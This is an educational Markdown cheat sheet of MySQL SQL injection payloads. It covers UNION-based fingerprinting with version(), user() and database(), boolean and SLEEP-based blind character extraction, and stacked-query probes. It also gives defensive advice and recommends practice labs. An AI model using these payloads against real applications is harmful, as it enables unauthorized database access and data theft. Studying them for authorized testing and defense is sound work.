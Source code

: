 # MySQL — Example SQL Injection Payloads & Notes (Non-destructive, Educational)

> [!WARNING]
> **Ethics reminder:** The examples here are for education and authorized testing only. Never run these against systems you do not own or do not have explicit written permission to test. Prefer intentionally vulnerable labs (PortSwigger Academy, OWASP Juice Shop, DVWA) or local instances.

---

## Contents

* Basic detection probes
* UNION-based examples (non-destructive)
* Error-based examples (safe probes)
* Boolean-based blind examples
* Time-based blind examples
* Stacked-queries considerations in MySQL
* Defensive notes specific to MySQL

---

## 1. Basic detection probes

Simple, low-risk probes to check whether input reaches SQL:

* `'` — single quote to trigger syntax errors if not escaped.
* `"` — double quote depending on context.
* `1 OR 1=1` — logic manipulation (may cause visible changes).

Example HTTP parameter probe:

```
GET /product?id=1'
```

Look for errors like `You have an error in your SQL syntax;` or changes in page content.

---

## 2. UNION-based (non-destructive) examples

Assume an original query: `SELECT id, name, price FROM products WHERE id = 'USER_INPUT'`

### Find column count (safe incremental NULLs)

```sql
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

Stop when you no longer get a column-count error.

### Identify display columns

```sql
' UNION SELECT 'COL1', 'COL2', 'COL3' --
```

Observe which markers appear in the response to find reflected columns.

### Non-destructive enumeration examples

Once you know the display column and count, request non-sensitive metadata:

```sql
' UNION SELECT NULL, version(), NULL --
' UNION SELECT NULL, user(), NULL --
' UNION SELECT NULL, database(), NULL --
```

These may reveal DB version and current DB user (useful for fingerprinting).

**Note:** Avoid listing or dumping user data in production. Use lab environments for table/column enumeration.

---

## 3. Error-based (safe probes)

Start with simple syntax errors and type mismatches to fingerprint DBMS and observe behavior.

* Single quote: `'`
* Cast-induced error (example, may or may not reveal content):

```sql
' AND 1=(SELECT CAST(database() AS SIGNED)) --
```

This may cause a conversion error exposing context depending on configuration.

Avoid aggressive error-inducing payloads in live targets.

---

## 4. Boolean-based blind examples

Character extraction pattern (MySQL):

```sql
' AND SUBSTRING((SELECT user()),1,1) = 'r' --
```

Start with `AND 1=1` / `AND 1=2` to confirm the injection works before attempting extraction.

Optimizations:

* Limit character set to `[0-9a-z@._-]` when extracting identifiers or emails.
* Use binary search on ASCII ranges to reduce number of requests.

---

## 5. Time-based blind examples (MySQL)

MySQL function: `SLEEP(seconds)`

### Simple timing check

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

If the response is \~5s slower, timing injections may be possible.

### Character extraction using sleep

```sql
' OR IF(SUBSTRING((SELECT user()),1,1) = 'r', SLEEP(5), 0) --
```

Measure averages and repeat to avoid false positives from network jitter.

---

## 6. Stacked-queries in MySQL

MySQL supports statement separators (`;`) but many client libraries disable multi-statements by default.

### Safe test for multiple-statement support

```sql
' ; SELECT 'X' --
```

If additional statements execute and return results, the connector may allow multiple statements — treat this as high risk.

**Warning:** Do not run destructive stacked payloads (e.g., `; DROP TABLE ...`) — use `SELECT` probes only in discovery.

---

## 7. Useful MySQL-specific functions

* `version()` — DB version string
* `user()` — current DB user
* `database()` — current database name
* `information_schema.tables` and `information_schema.columns` — metadata (requires read access)
* `SLEEP()` — for timing-based blind SQLi
* `CONCAT()`, `CHAR()` — useful constructing strings in payloads

---

## 8. Defensive notes specific to MySQL

> [!NOTE]
> * Use prepared statements / parameterized queries (e.g., `?` placeholders) — they are highly effective.
> * Disable `LOCAL_INFILE`, `LOAD_FILE`, and similar potentially risky features if not required.
> * Ensure the DB user for applications has minimal privileges and cannot access files or execute OS-level commands.
> * Avoid showing full SQL errors in production responses.
> * Monitor for unusual queries against `information_schema` and for long-running queries (suspicious use of `SLEEP`).

---

## 9. Where to practice safely

> [!TIP]
> * PortSwigger Academy (MySQL-focused labs)
> * OWASP Juice Shop
> * DVWA (configure with a local MySQL instance)
> * Local Docker images with intentionally vulnerable apps